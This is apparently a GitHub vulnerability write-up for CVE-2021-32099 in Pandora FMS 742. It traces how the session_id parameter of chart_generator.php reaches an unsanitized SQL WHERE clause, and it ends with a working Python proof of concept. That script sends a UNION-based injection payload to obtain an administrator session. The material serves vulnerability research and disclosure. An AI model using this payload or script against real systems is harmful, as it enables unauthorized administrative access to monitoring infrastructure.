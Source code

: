 # CVE-2021-32099

## 1. Description

A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the `/include/chart_generator.php` `session_id` parameter, leading to a login bypass.

## 2. How does PandoraFMS handle an unauthenticated access?

Let’s have a look at how user input is processed when access the endpoint:
- http://127.0.0.1:1337/pandora_console/include/chart_generator.php

<b><span style="color:red">/include/chart_generator.php</span></b>

```php
[...]
// Try to initialize session using existing php session id.
$user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);
if (check_login(false) === false) {
    // Error handler.
    ?>
[...]
```

As you can see, the user's input `$_REQUEST['session_id']` is passed to the constructor of the class `PandoraFMS\User` without any sanitization. Let's see what happen inside this class.

<b><span style="color:red">/include/lib/User.php</span></b>

```php
class User
{
    public $idUser;
    public $sessions = [];
    public function __construct($data) {
        global $config;

        // Unset user.
        unset($config['id_usuario']);
        unset($_SESSION['id_usuario']);

        if (is_array($data) === true) {
            if (isset($data['phpsessionid']) === true) {
                $this->sessions[$data['phpsessionid']] = 1;
                $info = \db_get_row_filter(
                    'tsessions_php',
                    ['id_session' => $data['phpsessionid']]
                );

                if ($info !== false) {
                    // Process.
                    $session_data = session_decode($info['data']);
                    $this->idUser = $_SESSION['id_usuario'];

                    // Valid session.
                    return $this;
                }
                return null;
            }
            [...]
        }
    }
}
```

Inside the constructor of the class `PandoraFMS\User`, user's input then is passed to `db_get_row_filter`. At this point, the chain of backend processing functions is called in sequence to process the user's input data. Finally, it calls `session_decode($info['data'])` to validate the data returned from the database.

**Flow to construct SQL statement**

We will analyze the execution flow of the payload <b>?session_id=XXX</b>. Below is the processing flow I found after a period time of debugging:

- **The Big Picture:**

```mermaid
flowchart TD
    subgraph **Functions Call Flow**
    A((db_get_row_filter)) -- "(1)" --> B[mysql_db_get_row_filter]
    B                      -- "(2)" --> C[mysql_db_format_array_where_clause_sql]
    C                      -- "(3)" --> B
    B                      -- "(4)" --> D[mysql_db_get_row_sql]
    D                      -- "(5)" --> E[mysql_db_get_all_rows_sql]
    E                      -- "(6)" --> F[(mysql_db_process_sql)]
    end
    subgraph **Data Flow**
    AA["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"] -- "(1)" --> BB["`
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"]

    BB  -- "(2)" --> CC["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$filter:</span></b>
        WHERE id_session = '<b><span style="color:red">XXX</span></b>'
    `"]

    CC -- "(3)" --> DD[("`
        <b><span style="color:cyan">$sql:</span></b>
        <b><span style="color:green">
                SELECT * FROM tsessions_php  WHERE id_session = '<b><span style="color:red">XXX</span></b>'
        </span></b>
    `")]
    end
```

- **The root cause:** The user's input is not thoroughly sanitized during the creation of the `WHERE` clause of the SQL statement.
    - <b><span style="color:red">mysql_db_format_array_where_clause_sql:</span></b> Constructing `WHERE` clause
        ```php
        // include/db/mysql.php
        function mysql_db_format_array_where_clause_sql($values, $join='AND', $prefix=false) {
            [...]
            // At this point:
            // $values: [ id_session => "XXX" ]
            
            foreach ($values as $field => $value) {
                $query .= sprintf("%s = '%s'", $field, $value);
            }

            [...]
            return (! empty($query) ? $prefix : '').$query.$group.$order.$limit.$offset;
            // => Return: " WHERE `id_session` = 'XXX'"
        }
        ```
    - <b><span style="color:red">mysql_db_get_row_filter:</span></b> Constructing the final SQL statement
        ```php
        // include/db/mysql.php
        function mysql_db_get_row_filter($table, $filter, $fields=false, $where_join='AND', $historydb=false)
        {
            [...]
            if (is_array($filter)) {
                $filter = db_format_array_where_clause_sql($filter, $where_join, ' WHERE ');
                // After this line:
                // $filter = " WHERE `id_session` = 'XXX'"
            }
            [...]

            $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);
            // After this line:
            // $sql = "SELECT * FROM tsessions_php  WHERE `id_session` = 'XXX'"

            return db_get_row_sql($sql, $historydb); // Now connect to DB and execute SQL statement.
        }
        ```

## 3. SQL Injection to bypass the administrator authentication

First, we need to determine how the admin's `id_session` is stored in the database:

<p align="center"> <img src="./images/db.png"></p>

Next, we try to access `include/chart_generator.php?session_id=ua74ldrjn4mmam90git1jvkcon` and debug to see what we need to become administrator:

- At this point, we can use SQL Injection to control the value of `$info` (which is return from `db_get_row_filter`)

    <p align="center"> <img src="./images/db_get_row_filter.png"></p>

- Next, the `session_decode` is called to deserialize the data inside `$info['data']`, the expected result is an array that would be stored in global variable `$_SESSION`.

    <p align="center"> <img src="./images/session_decode.png"></p>

- Finally, admin privileges are determined by checking if `$_SESSION['id_usuario'] == "admin"`.

Now we need to build a SQLi payload such that when the `db_get_row_filter` function is called, it will return the result: `$info['data'] = id_usuario|s:5:"admin";`

This can be easily achieved by using Union-based SQLi attack like this:

<p align="center"> <img src="./images/sqli.png"></p>

## 4. Proof of Concept

```python
import requests
import argparse

s = requests.Session()
def sqli_to_gain_session_admin(base_url: str) -> str:
    """ CVE-2021-32099: SQL Injection to gain session admin 
        Args:
            `base_url`: Base URL of the application (Ex: http://localhost:8080/pandora_console)
        Returns: 
            `id_session`: The session with admin privileges
    """

    # Step 1: Init Access to get a "NULL" `id_session`
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] First get `id_session` with NULL privilege: {id_session}")

    # Step 2: SQL Injection to gain session admin
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
        params={
            "session_id": "' UNION SELECT '1',2,'id_usuario|s:5:\"admin\";"
        }
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] Then perform SQL Injection to gain admin privilege...")

    # Step 3: Verify the session
    if "Pandora FMS Graph ( - )" not in res.text:
        print("[-] Failed to gain admin session")
    else:
        print("[+] Successfully gained admin session!!!")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='PoC for CVE-2021-32099')
    parser.add_argument('-u', '--url', type=str, help='Base URL of the application (Ex: http://localhost:8080/pandora_console)', required=True)
    args = parser.parse_args()
    sqli_to_gain_session_admin(args.url)
```

## 5. References

- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/